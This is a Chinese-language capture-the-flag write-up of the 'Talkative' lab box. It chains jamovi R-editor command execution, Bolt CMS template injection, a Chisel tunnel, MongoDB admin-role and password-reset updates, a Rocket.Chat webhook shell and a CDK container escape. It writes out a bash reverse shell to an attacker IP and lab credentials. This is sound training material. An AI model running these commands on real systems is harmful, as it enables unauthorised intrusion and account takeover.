


# 多种技巧实战之Talkative - 先知社区

多种技巧实战之Talkative

- - -

# 一、信息收集

## 1.端口扫描

使用nmap进行扫描找到五个打开的 TCP 端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130182505-bad37c38-8f6a-1.png)

有一个 Apache (80)，三个 Tornado（8080、80801 和 8082），还有一些在 3000 上看起来像 HTTP 的东西。基于Apache 版本，主机可能运行 Ubuntu 22.04 jammy。  
Tornado是一个基于 Python 的 Web 框架，旨在在 Python 异步方法中工作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130182517-c1da3d00-8f6a-1.png)

## 2.目录爆破

使用wfuzz工具对80端口进行爆破，没有发现什么有用的东西。然后就接着往下看吧。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130182526-c6fc21f4-8f6a-1.png)

访问80端口看看，有公司介绍，该网站模板是适用于制作聊天/通话应用程序的公司：  
然后发现了几个邮箱和几个用户名，先留下来。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130182536-cd3d174e-8f6a-1.png)

翻到的一些邮箱，可以当作用户名。之后来爆破。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130204408-2770b1f4-8f7e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130204415-2b635afa-8f7e-1.png)

## 3.框架识别

通过报错提示，发现是使用Bolt CMS的框架 。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130204423-306deb3c-8f7e-1.png)

知道这个cms是使用php编写的，然后使用feroxbuster -x php,对网站目录进行fuzz。  
没有找到可以利用的点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130204432-35ea7ad0-8f7e-1.png)

# 二、漏洞利用：

之前nmap扫描到还有3000端口开放。是一个Rocket Chat的实例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130204440-3a4c8190-8f7e-1.png)

这个站是可以注册用户的，我就注册了一个。进去之后没有发现可以利用的点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210625-44275d18-8f81-1.png)

## 1.第一次RCE

## jamovi 的RCE漏洞

无奈之下，转向了8080端口，然后是使用jamovi 的框架。  
经过谷歌语法，搜索发现它存在历史漏洞。有一个cve是可以弹xss的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210632-48c100a4-8f81-1.png)

然后我就开始查看别的功能，在“分析”选项卡中有一些用于统计分析的工具：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210703-5b3ea2cc-8f81-1.png)

## Rj Edmitor 编辑器命令执行

在点击“R”按钮会弹出一个下拉菜单，提供“Rj Editor”：有一个编辑器。尝试在编辑器里面进行命令执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210710-5f5ff414-8f81-1.png)

R 有一个内置system 命令来运行操作系统命令。只是运行system("id")不会返回任何内容，但是根据文档进行一些摆弄，添加intern = TRUE参数会返回输出：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210718-63f0948e-8f81-1.png)

执行whoami命令试试，成功执行命令。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210725-67d8b0ae-8f81-1.png)

## 反弹shell

接着进行反弹shell  
system("bash -c 'bash -i >& /dev/tcp/10.10.14.2/443 0<&1'",intern=TRUE)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210732-6c0779e4-8f81-1.png)

# 三、权限提升

## 第一次get\_shell

nc开启监听。然后执行命令之后，成功反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210739-70480960-8f81-1.png)

接着使用script /dev/null -c bash 来获取交互模式。  
然后使用cat命令查看它的网络连接情况。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210747-7533c27a-8f81-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210753-78b5a0d0-8f81-1.png)

## 主机信息收集

使用ps命令查看进程信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210800-7ccc6762-8f81-1.png)

翻文件目录，发现没有主目录/home，但有/root目录。  
接下来进入root目录下，使用ls -la 查看root下的文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210808-81a0375a-8f81-1.png)

然后将bolt-administration.omv下载到本地

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210815-85d855a0-8f81-1.png)

使用nc进行文件接收。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210821-8982b4a2-8f81-1.png)

下载完成之后，使用md5sum对文件进行检查其md5值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210828-8d8df7d2-8f81-1.png)

使用file查看文件类型，并使用unzip -l 进行压缩查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210837-93452b32-8f81-1.png)

然后解压缩到本地，发现一个json文件。并获取到三个用户的密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210843-96c70c4e-8f81-1.png)

接着使用这些密码来进行登录。

## 第二次命令执行

使用json文件得到的用户信息进行登录。  
matt@talkative.htb  
jeO09ufhWD<s  
janit@talkative.htb  
bZ89h}V<S\_DA

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210853-9c81ae46-8f81-1.png)

使用获取到的用户名登录之后，发现它说“Hey Saul”。这里的用户名有点奇怪。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210900-a06bc96a-8f81-1.png)

接下来查看它的配置文件。在底部，它显示我无法修改配置，因为它不可写。使用中的它们是base-2021：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210907-a4fdc974-8f81-1.png)

还有一个部分限制了可以上传到服务器的文件类型，以及可以在生成的 HTML 中使用哪些属性：

```plain
# Note: Database setup is best done in ENV variables. See the file `.env`
# in the project root.

# The name of the website
sitename: Talkative
payoff: Simply connecting the world together!

secret: '%env(APP_SECRET)%'

# The theme to use.
#
# Dont edit the provided templates directly, because they _will_ get updated
# in next releases. If you wish to modify a default theme, copy its folder, and
# change the name here accordingly.
theme: base-2021
#theme: skeleton

# Set the timezone to be used on the website. For a list of valid timezone
# settings, see: http://php.net/manual/en/timezones.php
# timezone: UTC

# Set the default time format used on this website. For a list of valid date
# format settings, see: https://www.php.net/manual/en/function.date.php
date_format: 'F j, Y H:i'

# You can set a preference to omit background images on the login screen.
omit_backgrounds: false

# If you're a party-pooper who wants to hide the `generator` meta tag and
# `x-powered-by` header, set these to true
omit_meta_generator_tag: false
omit_powered_by_header: false

# If your site is reachable under different urls (say, both blog.example.org/
# as well as example.org/), its a good idea to set one of these as the
# canonical, so its clear which is the primary address of the site.
#
# If you include `https://`, it will be included in the canonical urls.
#canonical: example.org

# Bolt can insert a <link rel="shortcut icon"> for all pages on the site.

# Note: The location given is relative to the currently selected theme. If
#       you want to set the icon yourself, just dont enable the following line.
#favicon: images/favicon-bolt.ico

# The default content to use for the homepage, and the template to render it
# with. This can either be a singleton like `homepage`, a specific record (like
# `page/1`) or a listing of records (like `entries`). In the chosen
# homepage_template, you will have `record` or `records` at your disposal,
# depending on the homepage setting.
#
# Note: If you've changed the filename, and your changes do not show up on
#       the website, be sure to check for a theme.yaml file in your themes
#       folder. If a template is set there, it will override the setting here.
homepage: homepage
homepage_template: index.twig

# The default content for the "Not Found" (404) page. Can be an (array of) template
# names or identifiers for records, which will be tried until a match is found.
notfound: [ blocks/404-not-found, 'helpers/page_404.html.twig' ]

# Toggle maintenance mode on or off. Note: If you're logged in, you'll still see
# the website as usual. Use an incognito window to see the "maintenance" page.
maintenance_mode: false

# The default for the "Maintenance mode" (503) page. Can be an (array of) template
# names or identifiers for records, which will be tried until a match is found.
maintenance: [ blocks/503-maintenance-mode, 'helpers/page_503.html.twig' ]

# The default content for the "Forbidden" (403) page. Can be an (array of) template
# names or identifiers for records, which will be tried until a match is found.
forbidden: [ blocks/403-forbidden, 'helpers/page_403.html.twig' ]

# The default content for the "Internal Server Error" (500) page. Can be an
# (array of) template names or identifiers for records.
# Note: Only used in `APP_ENV=prod` mode. You're advised to keep this as simple
# as possible, because if an error occurs in this template, it can not be
# handled, and you'll have a bad time debugging it!
internal_server_error: [ 'helpers/page_500.html.twig' ]

# The default template and amount of records to use for listing-pages on the
# site.
#
# Can be overridden for each content type and for each record, if it has a
# templateselect field.
#
# Note: If you've changed the filename, and your changes do not show up on the
#       website, be sure to check for a config.yaml file in your themes folder.
#       If a template is set there, it will override the setting here.
record_template: record.twig

# The default template and amount of records to use for listing-pages on the
# site.
#
# Can be overridden for each content type.
#
# Note: If you've changed the filename, and your changes do not show up on the
#         website, be sure to check for a config.yaml file in your themes
#         folder. If a template is set there, it will override the setting here.
listing_template: listing.twig
listing_records: 6
listing_sort: datepublish DESC

# Allow filtering on listing pages using query parameters, much like you would
# with . E.g. /pages?order=id and /pages?title--like=voluptat
# Useful for search.
query_search: true

# Maximum amount of items to show in a `<select>` for picking a record. For
# example in `type: select`.
maximum_listing_select: 1000

# Template for showing the search results. If not defined, uses the settings for
# listing_template and listing_records.
#
# Note: If you've changed the filename, and your changes do not show up on the
#       website, be sure to check for a config.yaml file in your themes folder.
#       If a template is set there, it will override the setting here.
search_results_template: search.twig
search_results_records: 10

# The default amount of records to show on overview pages. Can be overridden
# for each content type.
records_per_page: 8

# Default settings for thumbnails.
#
# quality:       Quality should be between 0 (horrible, small file) and 100 (best, huge file).
# fit:           One of either none, crop (= crop-center), crop-top-left, crop-top, crop-top-right, crop-left, crop-right, crop-bottom-left, crop-bottom or crop-bottom-right.
# allow_upscale: Determines whether small images will be enlarged to fit
#                the requested dimensions.
# save_files:    Save files in the thumbs/ folder, so subsequent requests will serve file directly. Great for performance
#
# Note: If you change these values, you might need to clear the cache before
#       they show up.
thumbnails:
    default_thumbnail: [ 320, 240 ]
    default_image: [ 1000, 750 ]
    quality: 80
    cropping: crop
    save_files: true
    allow_upscale: false

# File permissions for read/write/execute to set on folders and files that are
# created. The exact permissions you should be setting depends on the system
# user that PHP (and/or your webserver) is running as, and the user who owns the
# actual folders/files.
#
# - If they are the same user, use `0o755` for folders and `0o644` for files.
# - If they're in the same group, use use `0o775` for folders and `0o664` for files.
# - If you don't know, or you can't make it work otherwise, then use `0o777` for folders and `0o666` for files.
filepermissions:
    folders: 0o775
    files: 0o664

# Define the HTML tags and attributes that are allowed in cleaned HTML. This
# is used for sanitizing HTML, to make sure there are no undesirable elements
# left in the content that is shown to users. For example, tags like `<script>`
# or `onclick`-attributes.
# Note: enabling options in the `wysiwyg` settings will implicitly add items to
# the allowed tags. For example, if you set `images: true`, the `` tag
# will be allowed, regardless of it being in the `allowed_tags` setting.
htmlcleaner:
    allowed_tags: [ div, span, p, br, hr, s, u, strong, em, i, b, li, ul, ol, mark, blockquote, pre, code, tt, h1, h2, h3, h4, h5, h6, dd, dl, dt, table, tbody, thead, tfoot, th, td, tr, a, img, address, abbr, iframe, caption, sub, sup, figure, figcaption, article, section, small ]
    allowed_attributes: [ id, class, style, name, value, href, src, alt, title, width, height, frameborder, allowfullscreen, scrolling, target, colspan, rowspan, rel, download, hreflang ]
    allowed_frame_targets: [ _blank, _self, _parent, _top ]

# Define the file types (extensions to be exact) that are acceptable for upload
# in either file fields or through the files screen.
accept_file_types: [ twig, html, js, css, scss, gif, jpg, jpeg, png, ico, zip, tgz, txt, md, doc, docx, pdf, epub, xls, xlsx, ppt, pptx, mp3, ogg, wav, m4a, mp4, m4v, ogv, wmv, avi, webm, svg, webp, avif]

# Alternatively, if you wish to limit these, uncomment the following list
# instead. It just includes file types / extensions that are harder to exploit.
# accept_file_types: [ gif, jpg, jpeg, png, txt, md, pdf, epub, mp3 ]

accept_media_types: [ gif, jpg, jpeg, png, svg, pdf, mp3, tiff, avif, webp ]

# Set the maximum upload size. Note, this can never exceed the settings for
#`post_max_size` and `upload_max_filesize` in `php.ini`.
accept_upload_size: 8M

# Default location for uploading files.
upload_location: "{contenttype}/{year}/{month}/"

# Options to use with curl requests.
# For all options, check the official curl documentation here https://curl.haxx.se/libcurl/c/curl_easy_setopt.html
curl_options:
    verify_peer: true

# Various settings about Bolt's built-in localization features.
localization:
    fallback_when_missing: true # When set to true, fields with empty values will fallback to the default locale's value.

# Globally enable / disable the validator for Fields
validator_options:
    enable: true

# Options for user's avatar
user_avatar:
    upload_path: avatars
    extensions_allowed: ['png', 'jpeg', 'jpg', 'gif']
    default_avatar: '' # Put path of file locate in files directory

# Settings for the reset password logic
reset_password_settings:
    show_already_requested_password_notice: true
    mail_from: "do-not-reply@example.org"
    mail_name: "Bolt CMS"
    mail_subject: "Your password reset request"
    mail_template: "reset_password/email.html.twig"
```

虽然 Bolt 是 PHP，但如果不修改此文件，我无法在此处上传 PHP 文件。

## 编辑模板

在配置下，选择“查看和编辑模板”，这将导致一个显示不同主题的页面：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210927-b0b3be5e-8f81-1.png)

我将进入base-2021（因为它在这里使用），然后选择index.twig. 它为一个相对较短的twig文件提供了一个编辑器：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210934-b5429aee-8f81-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210941-b8e5f4e8-8f81-1.png)

这似乎是主页。我将在顶部添加一个标签，然后单击“保存更改”：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130210947-bcfe17fe-8f81-1.png)

似乎它应该出现在 上talkative.htb，但我在刷新时看不到它。

## 清理缓存

花了点时间窥探，但最终我会来到“维护”>“清除缓存”菜单：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211001-c55886aa-8f81-1.png)

当我点击“清除缓存”时，它报告成功，然后在刷新talkative.htb时，我的附加标签在左上角：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211009-c9c20c66-8f81-1.png)

## index.twig处命令执行

Twig是 PHP 系统的模板引擎。PayloadsAllTheThings 在SSTI页面中有一个部分（尽管这不是典型的 SSTI，但想法相同）。有一个关于代码执行的部分，我将抓住一个看起来最简单的并将它扔到index.twig：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211020-d03938c6-8f81-1.png)

在保存然后清除缓存时，会执行代码：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211027-d496292e-8f81-1.png)

接下来继续使用bash进行反弹shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211033-d82ebf1a-8f81-1.png)

## 第二次get\_shell

使用nc进行监听，监听之后。执行bash命令，清理缓存，成功获取shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211041-dd17b8c4-8f81-1.png)

该主机也是一个 Docker 容器。系统根目录下有一个.dockerenv文件。主机名为 ba67799048d7，IP 为 172.17.0.10：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211110-ee777726-8f81-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211117-f21740c8-8f81-1.png)

## SSH远程登录

## 获取user.txt

机器中没有文件夹/home，我无法访问/root。www-data 的主目录是/var/www，其中包含talkative.htb 的文件。这个容器安装了ssh客户端，IP是:172.17.0.1,然后就利用之前获取到的一些用户信息尝试进行登录。运气不错，登录了进来。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211128-f8c27532-8f81-1.png)

## 主机信息收集

使用ls -la 查看其目录，发现没有其它内容。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211134-fcb73c18-8f81-1.png)

所有的服务都在 docker 容器中运行，其中有很多：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211140-0059fe46-8f82-1.png)

## 分析总结

● 172.18.0.2 是一个外壳的 jamovi 容器。  
● 172.17.0.3 正在获取端口 3000，因此这很可能是 Rocket Chat 机器。  
● 172.17.0.4-19 每个都从 172.17.0.1 上的监听中获得转发，是这个主机。  
而且有趣的是，有一个 172.17.0.2，它只是没有任何端口转发给它：  
上传Nmap工具  
上传nmap到 Talkative机器当中其，接着进行全端口扫描。找到了27017端口存活。  
27017通常用于MongoDB。

## 搭建隧道

工具推荐：  
Chisel可用来搭建内网隧道，类似于常用的frp和nps之类的工具。由于目前使用的人比较少，因此对于有些杀软还不能准确的识别出该工具。chisel可以进行端口转发、反向端口转发以及Socks流量代理，使用go语言编写，支持多个平台使用，是进行内网穿透的一个鲜为人知的好工具。  
Talkative服务器 上没有安装连接到 Mongo 的工具。  
上传Chisel并创建一个隧道。在我的网络服务器上托管它后，我将获取它：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211148-05230cec-8f82-1.png)

从chisel主机上的服务器开始：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211154-08b082cc-8f82-1.png)

./chisel\_1.7.7\_linux\_amd64 client 10.10.14.2:8000 R:27017:172.17.0.2:27017  
将使用端口 8000，因为 Burp 使用默认端口 8080。我还将给出--reverse标志，表示我希望客户端能够打开我主机上的端口。

## 枚举数据库

我将与mongo( apt install mongodb-clients) 连接：  
默认情况下，它将使用 localhost 端口 27017，这是我的 Chisel 监听端口，所以它可以工作。它似乎不需要信用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211205-0f092aac-8f82-1.png)

有四个数据库：妻子三个，admin、config和local是 Mongo 安装的默认数据库。  
use meteor  
有 59 个集合（如表），其中大部分以rocketchat\_：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211214-141cec5e-8f82-1.png)

该users系列始终是一个rocket.chat的起点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211224-1a74c946-8f82-1.png)

Rocket.Cat 是默认的机器人用户。重置管理员密码。  
db.users.update({"\_id": "ZLMid6a4h5YEosPQi"}, {$set: {"roles" : \["admin"\]}})、  
db.getCollection('users').update({username:"administrator"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211232-1f084320-8f82-1.png)

## WebHook 集成处漏洞利用

此管理面板中有大量信息/选项。一个很快跳出来的是“集成”>“新集成”：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211238-22983cd4-8f82-1.png)

查看配置信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211243-25dae34c-8f82-1.png)

## 生成 WebHook

创建 WebHook 的表单很长。我将从命名它并将其指向#general频道开始：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211253-2b9b32b4-8f82-1.png)

## 使用 JavaScript 反弹 shell

反弹shell网站推荐：[https://www.revshells.com/](https://www.revshells.com/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211300-2f847dae-8f82-1.png)

跳过一堆可选字段，我将到达“脚本”字段：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211307-33f3f928-8f82-1.png)

我将保存 WebHook，它会显示在集成页面上：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211313-37848602-8f82-1.png)

回到它，现在脚本下面是“WebHook URL”

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211321-3c5ab9a8-8f82-1.png)

## 第三次get\_shell

反弹shell  
通过nc监听，我将使用curl触发 WebHook：  
curl [http://talkative.htb:3000/hooks/D8QhHe48uKenvbq8N/Czn627u78hEXsE3uxxwXL9xqJDmtToRYKdCxtsbTzchgJoRi](http://talkative.htb:3000/hooks/D8QhHe48uKenvbq8N/Czn627u78hEXsE3uxxwXL9xqJDmtToRYKdCxtsbTzchgJoRi)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211331-4228ec10-8f82-1.png)

成功获取到shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211338-462c7c64-8f82-1.png)

## CDK工具使用

使用CDK工具进行文件上传  
工具简介：  
1.CDK是一款为容器环境定制的渗透测试工具，在已攻陷的容器内部提供零依赖的常用命令及PoC/EXP。集成Docker/K8s场景特有的 逃逸、横向移动、持久化利用方式，插件化管理。  
地址：[https://github.com/cdk-team/CDK](https://github.com/cdk-team/CDK)  
2.pwncat 是一个后开发平台适用于 Linux 目标. 它最初是作为基本绑定和反向 shell 的包装器，并从那里发展而来。它简化了常见的红队操作，同时从攻击者机器而不是目标暂存代码。  
pwncat以前只支持Linux，但最近做了很多工作来支持多平台。目前，有对 Windows 目标的 alpha 支持。有关如何将 pwncat 与 Windows 目标一起使用的详细信息.  
地址：[https://github.com/calebstewart/pwncat](https://github.com/calebstewart/pwncat)  
下载之后使用pwncat-cs进行连接,连接之后上传CDK。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211353-4f830d64-8f82-1.png)

## 获取root.txt

最后利用cdk获取root.txt：./cdk run cap-dac-read-search /root/root.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231130211400-538275ee-8f82-1.png)

总结:  
Talkative 是关于通信平台的渗透测试。我首先通过常规的信息收集，主要做了端口扫描、目录爆破、cms框架识别，识别之后查询相关历史漏洞。然后使用 jamovi 中的内置 R 编辑器在 docker 容器中进行命令执行并获取 shell。在那里我会找到 Bolt CMS 系统的一些用户信息，并使用这些信息成功登录管理面板并编辑首页模板再次成功命令执行。从那个容器，我可以通过之前的用户信息，使用 SSH 连接到主机。从主机上，我会找到一个不同的容器网络，并通过端口扫描，发现在在容器中的 MongoDB数据库存在未授权访问。然后连接到数据库并使用它以管理员身份访问 Rocket Chat 这台机器。继续使用 Rocket Chat webhook的 集成功能在另一个 Docker 容器中获得又一个shell。接着上传CDK工具，进行读取root.txt.
